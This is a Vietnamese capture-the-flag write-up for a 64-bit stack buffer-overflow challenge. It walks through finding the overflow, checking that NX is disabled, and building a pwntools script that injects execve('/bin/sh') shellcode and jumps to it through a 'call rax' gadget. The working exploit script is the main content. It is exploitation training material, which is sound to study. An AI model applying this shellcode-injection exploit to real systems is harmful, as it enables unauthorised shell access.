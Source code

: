 **1. Tìm lỗi**

Dùng lệnh file kiểm tra file

![file.png](photo/file.png)

Là file elf64 bit -> Mở bằng IDA64 ta có hàm main như sau:

![main.png](photo/main.png)

Ta có hàm run như sau:

![run.png](photo/run.png)

Ta thấy biến v2 được khai báo với 524 byte nhưng cho phép nhập 0x220 = 544 byte -> Có lỗi bof

Thử chạy với payload1 là duc và payload2 là nhập tràn biến v2 ta được giá trị các thanh ghi trả về như sau

![ret.png](photo/ret.png)

Ta thấy giá trị mình nhập vào biến a1 được lưu vào rax nên có thể chèn shellcode ở a1

Dùng lệnh checksec xem có thể chèn shellcode được không

![checksec.png](photo/checksec.png)

Ta thấy NX ở trạng thái disabled nên có khai chèn được shellcode

**2. Ý tưởng**

Ở bước nhập a1 thì nhập shellcode với chuỗi "/bin/sh", đến bước nhập v2 thì nhập tràn 544 byte rồi pop rax bằng ROPgadget

**3. Viết script**

![rax.png](photo/rax.png)

Địa chỉ lệnh call rax: 0x0000000000401014

![v2.png](photo/v2.png)

Khoảng cách từ v2 đến ret là: 0x210 + 0x8 = 536

Ta có script như sau:

```
from pwn import *

r = process("./bof5")

shellcode = asm(
    '''
    mov rax, 0x3b
    mov rdi, 29400045130965551
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    syscall
    ''', arch='amd64')

call_rax = 0x0000000000401014
r.sendafter('> ', shellcode)
r.sendafter('> ', b'a'*536 + p64(call_rax))

r.interactive()
```
